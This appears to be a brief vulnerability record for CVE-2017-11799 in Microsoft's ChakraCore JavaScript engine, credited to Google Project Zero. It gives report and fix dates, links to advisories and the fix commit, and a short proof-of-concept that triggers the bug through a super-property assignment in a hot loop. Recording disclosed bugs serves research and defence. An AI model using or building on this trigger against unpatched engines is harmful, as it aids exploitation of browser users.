 # CVE-2017-11799

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
class MyClass {
    constructor() {
        this.arr = [1, 2, 3];
    }

    f() {
        super.arr = [1];
        this.x;
    }
}

let c = new MyClass();
for (let i = 0; i < 0x10000; i++) {
    c.f();
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11799)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1333)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/2e2270c5fa91c68226211faa81b582e02f3e8cfd)
